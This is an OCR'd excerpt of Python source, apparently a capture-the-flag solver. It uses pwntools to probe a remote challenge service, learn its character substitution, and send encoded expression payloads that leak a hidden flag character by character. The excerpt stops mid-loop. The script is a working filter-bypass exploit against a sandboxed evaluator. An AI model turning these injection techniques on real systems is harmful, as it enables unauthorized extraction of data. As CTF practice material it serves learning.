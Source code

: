 ```python
        
        OPTIMIZED_PAYLOADS[i] = best_payload
    log.success("Payload calculation complete.")

def get_neg_index_payload(n):
    """Lấy payload đã được tính toán trước để có chỉ số âm -n."""
    if n == 1:
        return "~('a'>'b')" # ~0 = -1
    if n > 1:
        # Để có -n, chúng ta cần tính ~(n-1)
        number_payload = OPTIMIZED_PAYLOADS[n-1]
        return f"~({number_payload})"
    return None

def solve():
    build_optimized_payloads(100)
    
    p = remote(HOST, PORT)
    possible_chars = 'abcdefghijklmnopqrstuvwxyz\''
    
    log.info("Step 1: Finding WARPED_QUOTE...")
    WARPED_QUOTE = None
    for char in possible_chars:
        payload = char + 'a' + char
        p.recvuntil(b'> ')
        p.sendline(payload.encode())
        response = p.recvline().strip().decode()
        if 'no galaxy' not in response: WARPED_QUOTE = char; break
    log.success(f"Found WARPED_QUOTE: '{WARPED_QUOTE}'")

    log.info("Step 2: Building reverse map...")
    reverse_map = {WARPED_QUOTE: "'"}
    chars_to_discover = [c for c in possible_chars if c != WARPED_QUOTE]
    for char in chars_to_discover:
        payload = WARPED_QUOTE + char + WARPED_QUOTE
        p.recvuntil(b'> ')
        p.sendline(payload.encode())
        reverse_map[char] = p.recvline().strip().decode()
    log.success(f"Built reverse map with {len(reverse_map)} entries.")

    log.info("Step 3: Building warp map...")
    warp_map = {v: k for k, v in reverse_map.items()}
    log.success("Warp map created.")

    log.info("Step 4: Retrieving flag with FULLY OPTIMIZED payloads...")
    flag_chars = []
    for i in range(1, 101):
        index_payload = get_neg_index_payload(i)
        original_payload = f"spiral[{index_payload}]"
        
        if len(original_payload) > 150:
            log.warning(f"Original payload for index {-i} is too long ({len(original_payload)} chars)! Stopping.")
            break

        warped_payload = "".join([warp_map.get(c, c) for c in original_payload])

        p.recvuntil(b'> ')
        p.sendline(warped_payload.encode())
        response = p.recvline().strip().decode()

        if 'no galaxy' in response:
            log.info("End of flag reached.")
```